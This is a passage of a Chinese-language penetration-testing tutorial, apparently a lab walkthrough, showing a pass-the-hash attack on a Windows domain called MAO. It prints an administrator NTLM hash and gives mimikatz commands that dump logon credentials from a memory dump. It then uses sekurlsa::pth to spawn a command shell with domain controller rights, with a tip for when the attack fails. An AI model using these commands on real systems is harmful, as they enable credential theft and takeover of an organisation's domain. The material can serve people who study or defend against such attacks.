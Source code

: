域名 => MAO

[![](assets/1706958938-491bbae9756992e6f0df39e92dafaf39.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304880-1150251025.png)

拿到管理员的 ntml hash => 570a9a65db8fba761c1008a51d4c95ab

```plain
其实通过 mimikatz.exe，啥都满足了：
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full
```

[![](assets/1706958938-171c60ebbf9992a2a56d0bf59028f751.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172305175-695771125.png)

### ⑤发起攻击

#### 法一：mimikatz 直接 pth

```plain
sekurlsa::pth /user:<pth 的对象> /domain:<域名> /ntlm:<ntlm hash> [/run:name]

privilege::debug
sekurlsa::pth /user:Administrator /domain:MAO /ntlm:570a9a65db8fba761c1008a51d4c95ab /run:cmd
```

拿下域控权限。(如果参数都填写正确的情况下，还是无法攻击成功的话，尝试关闭 mimikatz 窗口，重新以管理员启动 cmd.exe，重新提升权限，再进行攻击。run 后面的命令不写也行，默认开启域控的 cmd.exe)
